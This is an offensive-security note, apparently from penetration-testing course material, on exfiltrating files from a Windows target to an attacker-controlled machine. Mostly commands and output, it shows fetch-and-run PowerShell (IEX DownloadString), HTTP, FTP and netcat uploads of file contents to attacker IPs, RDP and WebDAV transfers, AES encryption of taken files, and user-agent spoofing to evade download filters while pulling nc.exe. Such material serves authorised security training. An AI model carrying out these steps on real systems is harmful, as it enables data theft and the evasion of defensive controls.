

# Upload

Upload (*acquire*) files from the target machine
(*e.g., for password cracking, analysis, exfiltration, etc.*)



<!-- Info {{{-->
> [!info]- Resources
>
> [HackTricks](https://book.hacktricks.wiki/en/generic-hacking/exfiltration.html)
>
<!-- }}} -->

___

<!-- PowerShell {{{-->
## PowerShell

<!-- Base64 {{{-->
### Base64

1. **Target**: [[Base64#Windows#Encode|Base64 Encode]] a file

2. **Target**: Run [md5sum](https://en.wikipedia.org/wiki/Md5sum)
   on the file for reference

```powershell
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

<!-- Example {{{-->
> [!example]-
>
> ```powershell
> PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
> ```
> ```powershell
> Hash
> ----
> 3688374325B992DEF12793500307566D
> ```
<!-- }}} -->

3. **Attacker**: [[Base64#Linux#Decode|Base64 Decode]] string

4. **Attacker**: Validate [md5sum](https://en.wikipedia.org/wiki/Md5sum)

```sh
md5sum <file>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> md5sum hosts
> ```
> ```
> 3688374325b992def12793500307566d  hosts
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Web Upload {{{-->
### Web Upload

PowerShell doesn't have a built-in function for upload operations

1. **Attacker**: Install [uploadserver](https://github.com/Densaugeo/uploadserver)
   — Python's [http.server](https://docs.python.org/3/library/http.server.html)
   extended to include a file upload page

[[pipx]]

```sh
pipx install uploadserver
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> pipx install uploadserver
> ```
> ```sh
> pipx install uploadserver
>   installed package uploadserver 6.0.0, installed using Python 3.13.3
>   These apps are now globally available
>     - uploadserver
> done! Successfully installed uploadserver-2.0.1
> ```
<!-- }}} -->

[[Virtual Environment]]

```sh
pip install uploadserver
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> python3 -m venv venv
> ```
>
> ```sh
> source v/bin/activate
> ```
>
> ```sh
> pip install uploadserver
> ```
>
> ```sh
> deactivate
> ```
<!-- }}} -->

2. **Attacker**: Host the web upload server

```sh
python3 -m uploadserver
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> python3 -m uploadserver
> ```
> ```sh
> File upload available at /upload
> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
> ```
<!-- }}} -->

3. **Target**: Acquire [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
   — PowerShell Script to upload files using [uploadserver](https://github.com/Densaugeo/uploadserver)
   module

```sh
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

4. **Target**: Upload the file to the attacker machine

```sh
Invoke-FileUpload -Uri http://<attacker_ip>:8000/upload -File <file>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
> ```
> ```sh
> [+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
> [+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Base64 Web Upload {{{-->
### Base64 Web Upload

1. **Target**: [[Base64#Windows#Encode|Base64 Encode]] a file

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte))
```

<!-- Example {{{-->
> [!example]-
>
> ```powershell
> PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
> ```
<!-- }}} -->

2. **Attacker**: [[Netcat]] — Listen to the incoming connection

```sh
nc -lvnp 8000
```

3. **Target**: Upload the Base64 string

```powershell
Invoke-WebRequest -Uri http://<target_ip>:8000/ -Method POST -Body $b64
```

<!-- Example {{{-->
> [!example]-
>
> ```powershell
> PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
> ```
<!-- }}} -->

4. **Attacker**: Capture and [[Base64#Linux#Decode|Base64 Decode]] string

<!-- Example {{{-->
> [!example]-
>
> ```sh
> listening on [any] 8000 ...
> connect to [192.168.49.128] from (UNKNOWN) [192.168.49.129] 50923
> POST / HTTP/1.1
> User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
> Content-Type: application/x-www-form-urlencoded
> Host: 192.168.49.128:8000
> Content-Length: 1820
> Connection: Keep-Alive
>
> IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQo
> ...SNIP...
> ```
<!-- }}} -->

```sh
echo <base64> | base64 -d -w 0 > <out_file>
```

<!-- }}} -->

<!-- PowerShell Remoting {{{-->
### PowerShell Remoting

[PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5)
(*a.k.a. [[WinRM/General|WinRM]]*)
allows to execute scripts or commands on a remote computer
using [[PowerShell/General|PowerShell]] sessions

The target must be the member of `Remote Management Users`
or have explicit permissions for PowerShell Remoting
in the session configuration

<!-- Info {{{-->
> [!info]- Listeners
>
> PowerShell Remoting creates both an HTTP and HTTPS listener
>
> - HTTP: `TCP/5985`
> - HTTPS: `TCP/5986`
>
<!-- }}} -->

<!-- Example {{{-->
> [!example]-
>
> ```sh
> PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
> ```
> ```sh
> ComputerName     : DATABASE01
> RemoteAddress    : 192.168.1.101
> RemotePort       : 5985
> InterfaceAlias   : Ethernet0
> SourceAddress    : 192.168.1.100
> TcpTestSucceeded : True
> ```
>
> The current session has privileges over `DATABASE01`,
> credentials don't need to be specified
>
<!-- }}} -->

1. **Target**: Create a PowerShell Remoting Session

```sh
$Session = New-PSSession -ComputerName <HOSTNAME>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> $Session = New-PSSession -ComputerName DATABASE01
> ```
<!-- }}} -->


2. **Target**: Copy a file from localhost to a remote computer

```sh
Copy-Item -Path C:\<file> -ToSession $Session -Destination C:\<dir>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
> ```
>
<!-- }}} -->


<!-- }}} -->

___
<!-- }}} -->

<!-- Certutil {{{-->
## Certutil

[certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

> [!todo]

___
<!-- }}} -->

<!-- Protocols {{{-->
## Protocols

<!-- FTP {{{-->
### FTP

1. **Attacker**: Install [pyftp](https://pypi.org/project/pyftpdlib/),
   an asynchronous FTP server library

[[pipx]]

```sh
pipx install pyftpdlib
```

[[Virtual Environment]]

```sh
pip3 install pyftpdlib
```

2. **Attacker**: Launch FTP server


[[pipx]]

```sh
pipx run pyftpdlib --port 21 --write
```

[[Virtual Environment]]

```sh
pip3 pyftpdlib --port 21 --write
```

<!-- Info {{{-->
> [!info]-
>
> - `--port 21`: Specify port `21`, as `pyftpdlib` uses port `2121` by default
> - `--write`: Allow clients to upload files
<!-- }}} -->

3. **Target**: Upload a file to the FTP server

```powershell
(New-Object Net.WebClient).UploadFile('ftp://<target_ip>/ftp-hosts', '<file>')
```

<!-- Example {{{-->
> [!example]-
>
> ```powershell
> PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
> ```
<!-- }}} -->

**Simple Shell**

1. Create a command file

<!-- Example {{{-->
> [!example]-
>
> ```sh
> echo open 192.168.49.128 > ftpcommand.txt
> echo USER anonymous >> ftpcommand.txt
> echo binary >> ftpcommand.txt
> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
> echo bye >> ftpcommand.txt
> ```
<!-- }}} -->

2. Connect & Execute the command file

<!-- Example {{{-->
> [!example]-
>
> ```sh
> C:\htb> ftp -v -n -s:ftpcommand.txt
> ftp> open 192.168.49.128
>
> Log in with USER and PASS first.
>
>
> ftp> USER anonymous
> ftp> PUT c:\windows\system32\drivers\etc\hosts
> ftp> bye
> ```
<!-- }}} -->

___
<!-- }}} -->

<!-- ICMP {{{-->
### ICMP

> [!todo]

- [GitHub - ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools)


<!-- }}} -->

<!-- RDP {{{-->
### RDP

Transfer files via [[RDP/General|RDP]]

- Right-click and copy a file from the Windows machine
  and paste it into the RDP session

1. **Attacker**: Mount a Linux folder remotely

[rdesktop](http://www.rdesktop.org/)

```sh
rdesktop $target -d <domain> -u <user> -p '<password>' -r disk:linux='<path>'
```

<!-- Info {{{-->
> [!info]-
>
> - `-d`: Domain for authentication
>
<!-- }}} -->

<!-- Example {{{-->
> [!example]-
>
> ```sh
> rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
> ```
<!-- }}} -->

[xfreerdp](https://www.freerdp.com/)

```sh
xfreerdp /v:$target /d:<domain> /u:<user> /p:'<password>' /drive:linux,<path>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
> ```
<!-- }}} -->

2. **Target**: Access the directory

[tsclient](https://en.wikipedia.org/wiki/Tsclient)

```sh
cd \\tsclient\
```

<!-- Example {{{-->
> [!example]-
>
> ![[tsclient.jpg]]
>
<!-- }}} -->

[mstsc.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc)

<!-- Example {{{-->
> [!example]-
>
> ![[rdp.png]]
>
<!-- }}} -->

___
<!-- }}} -->

<!-- SMB {{{-->
### SMB

Run SMB over HTTP(*s*) with [WebDav](https://en.wikipedia.org/wiki/WebDAV)
(*[RFC 4918](https://datatracker.ietf.org/doc/html/rfc4918)*):
an extension of HTTP(*s*) that enables a web server
to behave like a file server

<!-- Info {{{-->
> [!info]-
>
> Enterprises usually don't allow the [[SMB/General|SMB]] protocol (*`TCP/445`*)
> out of their internal network to reduce the attack surface.
>
> [Preventing SMB traffic from lateral connections and entering or leaving the network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)
>
<!-- }}} -->

1. **Attacker**: Install [wsgidav](https://github.com/mar10/wsgidav)
   WebDAV server

[[pipx]]

```sh
pipx install wsgidav cheroot
```

[[Virtual Environment]]

```sh
pip3 install wsgidav cheroot
```

2. **Attacker**: Launch [wsgidav](https://github.com/mar10/wsgidav)
   WebDAV server

[[pipx]]

```sh
pipx run wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

[[Virtual Environment]]

```sh
pip3 wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

3. **Target**: Connect to the share using the `DavWWWRoot` directory

```sh
dir \\<ip>\DavWWWRoot
```

<!-- Info {{{-->
> [!info]- DavWWWRoot
>
> `DavWWWRoot` is a special keyword recognized by the Windows Shell.
>
> No such folder exists on the WebDAV server.
>
> The `DavWWWRoot` keyword tells the
> [Mini-Redirector driver](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/the-kernel-network-mini-redirector-driver),
> which handles WebDAV requests that the connection is being made
> to the root of the WebDAV server.
>
> > [!tip]
> >
> > Avoid using the `DavWWWRoot` keyword by specifying a folder
> > that exists on the server when connecting:
> >
> > ```sh
> > \\192.168.49.128\sharefolder
> > ```
<!-- }}} -->

<!-- Example {{{-->
> [!example]-
>
> ```sh
> C:\htb> dir \\192.168.49.128\DavWWWRoot
> ```
> ```
> Volume in drive \\192.168.49.128\DavWWWRoot has no label.
> Volume Serial Number is 0000-0000
>
> Directory of \\192.168.49.128\DavWWWRoot
>
> 05/18/2022  10:05 AM    <DIR>          .
> 05/18/2022  10:05 AM    <DIR>          ..
> 05/18/2022  10:05 AM    <DIR>          sharefolder
> 05/18/2022  10:05 AM                13 filetest.txt
>                1 File(s)             13 bytes
>                3 Dir(s)  43,443,318,784 bytes free
> ```
<!-- }}} -->

<!-- }}} -->

___
<!-- }}} -->

<!-- Encryption {{{-->
## Encryption

Many different methods can be used to encrypt files and information
on Windows systems

1. [[Windows/Download|Download]] `Invoke-AESEncryption.ps1`
   to the target

<!-- Example {{{-->
> [!example]- Invoke-AESEncryption.ps1
>
> ```sh
> .EXAMPLE
> Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text" 
>
> Description
> -----------
> Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
>
> .EXAMPLE
> Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs="
>
> Description
> -----------
> Decrypts the Base64 encoded string "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs=" and outputs plain text.
>
> .EXAMPLE
> Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin
>
> Description
> -----------
> Encrypts the file "file.bin" and outputs an encrypted file "file.bin.aes"
>
> .EXAMPLE
> Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Path file.bin.aes
>
> Description
> -----------
> Decrypts the file "file.bin.aes" and outputs an encrypted file "file.bin"
> #>
> function Invoke-AESEncryption {
>     [CmdletBinding()]
>     [OutputType([string])]
>     Param
>     (
>         [Parameter(Mandatory = $true)]
>         [ValidateSet('Encrypt', 'Decrypt')]
>         [String]$Mode,
>
>         [Parameter(Mandatory = $true)]
>         [String]$Key,
>
>         [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
>         [String]$Text,
>
>         [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
>         [String]$Path
>     )
>
>     Begin {
>         $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
>         $aesManaged = New-Object System.Security.Cryptography.AesManaged
>         $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
>         $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
>         $aesManaged.BlockSize = 128
>         $aesManaged.KeySize = 256
>     }
>
>     Process {
>         $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
>
>         switch ($Mode) {
>             'Encrypt' {
>                 if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
>
>                 if ($Path) {
>                     $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
>                     if (!$File.FullName) {
>                         Write-Error -Message "File not found!"
>                         break
>                     }
>                     $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
>                     $outPath = $File.FullName + ".aes"
>                 }
>
>                 $encryptor = $aesManaged.CreateEncryptor()
>                 $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
>                 $encryptedBytes = $aesManaged.IV + $encryptedBytes
>                 $aesManaged.Dispose()
>
>                 if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
>
>                 if ($Path) {
>                     [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
>                     (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
>                     return "File encrypted to $outPath"
>                 }
>             }
>
>             'Decrypt' {
>                 if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
>
>                 if ($Path) {
>                     $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
>                     if (!$File.FullName) {
>                         Write-Error -Message "File not found!"
>                         break
>                     }
>                     $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
>                     $outPath = $File.FullName -replace ".aes"
>                 }
>
>                 $aesManaged.IV = $cipherBytes[0..15]
>                 $decryptor = $aesManaged.CreateDecryptor()
>                 $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
>                 $aesManaged.Dispose()
>
>                 if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
>
>                 if ($Path) {
>                     [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
>                     (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
>                     return "File decrypted to $outPath"
>                 }
>             }
>         }
>     }
>
>     End {
>         $shaManaged.Dispose()
>         $aesManaged.Dispose()
>     }
> }
> ```
>
<!-- }}} -->

2. **Target**: Import module `Invoke-AESEncryption.ps1`

```sh
Import-Module .\Invoke-AESEncryption.ps1
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> PS C:\htb> Import-Module .\Invoke-AESEncryption.ps1
> ```
>
<!-- }}} -->

3. **Target**: Encrypt a file

```sh
Invoke-AESEncryption -Mode Encrypt -Key "<password>" -Path .\<file>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> PS C:\htb> Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
> ```
> ```sh
> File encrypted to C:\htb\scan-results.txt.aes
> ```
> ```sh
> PS C:\htb> ls
> ```
> ```sh
>
>     Directory: C:\htb
>
> Mode                 LastWriteTime         Length Name
> ----                 -------------         ------ ----
> -a----        11/18/2020  12:17 AM           9734 Invoke-AESEncryption.ps1
> -a----        11/18/2020  12:19 PM           1724 scan-results.txt
> -a----        11/18/2020  12:20 PM           3448 scan-results.txt.aes
> ```
<!-- }}} -->

`Invoke-AESEncryption` creates an encrypted file with the same name
buti with the extension `.aes`

4. **Attacker**: Install [PowerShell](https://www.kali.org/tools/powershell/)

```sh
sudo apt install powershell
```

5. **Attacker**: Launch PowerShell

```sh
pwsh
```

6. **Attacker**: Import module `Invoke-AESEncryption`

```sh
. ./Invoke-AESEncryption.ps1
```

7. **Attacker**: Decrypt a file

```sh
Invoke-AESEncryption -Mode Decrypt -Key "<password>" -Path <file>
```

___
<!-- }}} -->

<!-- Detection Evasion {{{-->
## Detection Evasion

Bypass file upload restrictions set by administrators

<!-- Tip {{{-->
> [!tip]
>
> - [LOLBAS](https://lolbas-project.github.io)
> - [LOLDrivers](https://www.loldrivers.io/)
>
<!-- }}} -->

Bypass blacklisted [[HTTP/General#User Agent String|User Agent Strings]]

1. [Invoke-WebRequest](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.5&viewFallbackFrom=powershell-7.1):
   List User Agents

```sh
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
> ```
> ```sh
> Name       : InternetExplorer
> User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)
>
> Name       : FireFox
> User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0
>
> Name       : Chrome
> User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
>              Safari/534.6
>
> Name       : Opera
> User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1
>
> Name       : Safari
> User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
>              Safari/533.16
> ```
<!-- }}} -->

2. [Invoke-WebRequest](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.5&viewFallbackFrom=powershell-7.1):
   Set User Agent String (*e.g., Google Chrome*)

```sh
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```sh
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

<!-- Example {{{-->
> [!example]-
>
> Client - Invoking Invoke-WebRequest to download `nc.exe`
> using a Chrome User Agent
>
> ```sh
> PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
> ```
> ```sh
> PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
> ```
>
> Server
>
> ```sh
> nc -lvnp 80
> ```
> ```sh
> listening on [any] 80 ...
> connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
> GET /nc.exe HTTP/1.1
> User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
> (KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
> Host: 10.10.10.32
> Connection: Keep-Alive
> ```
<!-- }}} -->

___
<!-- }}} -->
